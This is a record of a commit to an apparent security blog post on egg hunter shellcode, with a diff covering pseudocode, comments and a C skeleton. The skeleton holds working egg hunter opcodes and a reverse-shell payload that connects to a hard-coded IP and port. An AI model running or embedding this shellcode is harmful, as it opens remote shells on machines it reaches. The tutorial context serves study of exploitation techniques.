

Before and after one commit to smarinovic/smarinovic.github.io, a Jekyll site: the page built from _posts/2020-06-09-EggHunter.md, in a window 1280 px wide and 1400 px high, scrolled down 948 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2020-06-09-EggHunter.md

````diff
--- a/_posts/2020-06-09-EggHunter.md
+++ b/_posts/2020-06-09-EggHunter.md
@@ -11,8 +11,7 @@
 
 ## Introduction ##
 
-Egg Hunter is super useful and simple piece of code used to search for an defined series of bytes called "egg" in a memory.
-Egg as such is just a 4 bytes string, usually: "w00t" (but it can be anything else unique) which is added twice as prefix to a shellcode and thus marks beggining of a shell code.
+Egg Hunter is super useful and simple piece of code used to search for an defined series of bytes called "egg" in a memory. Egg as such is just a 4 bytes string, usually: "w00t" (but it can be anything else unique) which is added twice as prefix to a shellcode and thus marks beggining of a shell code.
 Egg Hunter is used in situation when buffer overflow vulnerability provides limited space, not large enough for placing shell code, but still shell code ends up somehow, somewhere in a memory.
 For example, HTTP header can be vulnerable to buffer overflow but useful buffer is not large enought to hold shell code so instead shell code can can be delivered as payload within POST parameters of the same request etc.
 Instead of direct execution of shellcode at first Egg Hunter is executed which searches for a egg in a memory and once it founds egg (two instances of egg: w00tw00t) it passes execution to a shellcode located just after the egg.
@@ -22,10 +21,10 @@
 
 We could write Egg Hunter in pseudo code as follows:
 ```
-egg = "w00t"
-x = 0 # starting memory location
+egg = "w00t"                              # define egg
+x = 0                                     # starting memory location
 
-While(True):
+While(True):                              # loop - which is running until 2 eggs are found
   if read(4 bytes at x) == egg:           # read 4 bytes and compare to egg (w00t)
     if read(4 bytes at x+4) == egg:       # if first 4 bytes are eaqual to egg, read next 4 bytes
       execute x+8                         # if another occurance of egg is found, pass execution to x+8 (shell code location)
@@ -36,9 +35,9 @@
 ## Egg Hunter - first attempt ##
 
 Let's write basic Egg Hunter in assembly code based on prototype and see what will happen. Once Egg Hunter is compiled and liked, we can use Egg Hunter opcode with sekelton code from previous blog posts.
-In order for Egg Hunter to find and execute shell code (we used reverse shell code from previous blog post) we need to add two instances of egg ```\x77\x30\x30\x74``` at the beggining of shell code.
+In order for Egg Hunter to find and execute shell code (reverse shell code from previous blog post was used) we need to add two instances of egg ```\x77\x30\x30\x74``` at the beggining of shell code.
 
-* Assemlby code is following: *
+* Assemlby code is following:
 
 ```
 global _start
@@ -61,14 +60,14 @@
 
 ```
 
-* Skeleton code with Egg Hunter and reverse shell is following: *
+* Skeleton code with Egg Hunter and reverse shell is following:
 
 ```
 #include <stdio.h>
 
 unsigned char egghunter[] = "\x31\xd2\x42\x81\x3a\x77\x30\x30\x74\x75\xf7\x81\x7a\x04\x77\x30\x30\x75\xee\x83\xc2\x08\xff\xe2";
 unsigned char shellcode[] = "\x77\x30\x30\x74\x77\x30\x30\x74\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
-// egg -----------------------^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
+// 2 x egg -------------------^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
 
 int main()
 {
````
Also changed, not shown: other parts of _posts/2020-06-09-EggHunter.md (+4 -3 lines).
